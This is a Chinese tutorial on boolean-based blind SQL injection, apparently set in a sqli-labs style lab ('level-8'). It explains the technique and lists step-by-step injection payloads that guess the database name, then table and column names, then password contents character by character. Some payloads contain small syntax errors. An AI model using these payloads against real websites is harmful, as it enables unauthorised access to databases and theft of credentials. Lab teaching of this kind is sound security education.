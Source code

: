 

## 四、布尔盲注

### 4.1 基本概念

盲注：页面没有报错回显，不知道数据库具体返回值的情况下，对数据库中的内容进行猜解，实行SQL注入。

::: tip 盲注分类

- 布尔盲注
- 时间盲注
- 报错盲注

:::

布尔盲注：web页面只返回True真，False假两种类型。利用页面返回不同，逐个猜解数据。

### 4.2 布尔盲注

**布尔盲注常用函数**

- `length(select database())>5 `里可以放查询语句,用来判断查询结果的长度
- `exists( )` 里可以放查询语句,用来判断查询结果是否存在
- `ascii( ) ` 里可以放查询语句,用来把查询结果转换为ascii的值
- `substr( string,pos,length)`  用来截取查询结果,string可以用查询语句代替,pos表示截取位置–下标从1开始,length表示截取的长度

> **布尔盲注的一般步骤**

```bash
1、判断数据库名的长度：
	and length(database())>7 回显正常；
	and length(database())>8 回显错误，说明数据库名是等于8个字符。
2、猜测数据库名（使用ascii码来依次判断）：
	and (ascii(substr(database(),1,1)))>115%23 通过不断测试，确定ascii值，查看asciii表可以得出该字符，
	通过改变database（）后面第一个数字，可以往后继续猜测第二个、第三个字母…
3、猜测表名：
	and (ascii(substr((select table_name from information_schema.tables where table.schema=database() limit 1,1)1,1)>144%23 
	往后继续猜测第二个、第三个字母…
4、猜测字段名（列名）：
	and (ascii(substr((select column_name from information_schema.columns where table.schema=database() and table_name=’数据库表名’ limit 0,1)1,1)>105%23 
	经过猜测 ascii为105为i也就是表的第一个列名id的第一个字母;
	同样,通过修改 limit 0,1 获取第二个列名 修改后面1,1的获取当前列的其他字段.
5、猜测字段内容：
	因为知道了列名，所以直接 select password from users 就可以获取password里面的内容，username也一样 
	and (ascii(substr(( select password from users limit 0,1),1,1)))=68--+

```

比如我当前使用的环境是level-8的

![image-20240507000113567](https://blog-1304715799.cos.ap-nanjing.myqcloud.com/imgs/image-20240507000113567.png)

1. 判断一下当前的数据库名的长度，如下测试到8是回显正常。
